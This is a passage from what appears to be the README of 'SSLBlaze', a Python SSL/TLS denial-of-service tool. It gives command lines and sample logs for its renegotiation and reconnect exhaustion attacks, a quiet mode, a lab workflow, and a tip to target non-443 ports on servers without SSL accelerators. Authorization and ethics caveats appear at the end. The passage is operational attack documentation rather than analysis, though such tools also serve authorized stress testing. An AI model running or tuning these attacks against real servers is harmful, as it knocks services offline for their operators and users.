   ```json
    "timestamp": "2025-05-15 16:01:00"
  }
  ```
- **Tips**: Use **NetSentry** to monitor server traffic; test with a local Apache/Nginx server with SSL enabled.

#### Reconnect Attack
- **Purpose**: Simulate repeated SSL connections to consume server resources.
- **Usage**:
  ```bash
  python3 sslblaze.py -t example.com -p 443 -m reconnect -c 50 -d 30
  ```
- **Output**:
  ```
  2025-05-15 16:00:00 - INFO - Starting SSLBlaze against example.com:443 in reconnect mode
  2025-05-15 16:00:30 - INFO - Reconnect attack to example.com:443 completed, 300 handshakes
  ```
- **Tips**: Test non-443 ports (e.g., SMTPS, POP3S) for servers without SSL accelerators.[](https://blog.insecure.in/thc-ssl-dos-tool-released/)

#### Quiet Mode
- **Purpose**: Reduce terminal output.
- **Usage**:
  ```bash
  python3 sslblaze.py -t example.com -m renegotiate -c 100 -d 60 -q
  ```
- **Tips**: Monitor `sslblaze.log` with `tail -f sslblaze.log`.

### Workflow
1. Set up lab (VM with SSL-enabled server, e.g., Apache/Nginx, network access).
2. Install dependencies:
   ```bash
   ./setup_sslblaze.sh
   ```
3. Run SSLBlaze:
   ```bash
   python3 sslblaze.py -t example.com -m renegotiate -c 100 -d 60
   ```
4. Monitor output in terminal or `sslblaze.log`.
5. Check results in `sslblaze-output/` (text, JSON, SQLite).
6. Stop with `Ctrl+C`; secure outputs (`rm -rf sslblaze-output/*`).

## Output
- **Logs**: `sslblaze.log`, e.g.:
  ```
  2025-05-15 16:00:00 - INFO - Starting SSLBlaze against example.com:443 in renegotiate mode
  2025-05-15 16:01:00 - INFO - Renegotiation attack to example.com:443 completed, 500 handshakes
  ```
- **Results**: `sslblaze-output/blaze_<timestamp>.txt` and `.json`.
- **Database**: `sslblaze-output/sslblaze.db` (SQLite).

## Notes
- **Environment**: Use on authorized servers/networks in your lab.
- **Impact**: Exhaustion attacks may degrade server performance; modern servers may mitigate with renegotiation disabled or IDS.[](https://www.infoworld.com/article/2263741/new-dos-tool-from-thc-another-overhyped-threat.html)
- **Ethics**: Avoid unauthorized testing to prevent legal/security issues.
- **Dependencies**: Minimal; uses Python’s `ssl` and `socket` libraries.
- **Root**: Not required, but network access is needed.
- **Sources**: Built for SSL/TLS testing, leveraging security concepts from Kali Linux toolsets and OWASP guidelines.[](https://www.kali.org/tools/thc-ssl-dos/)
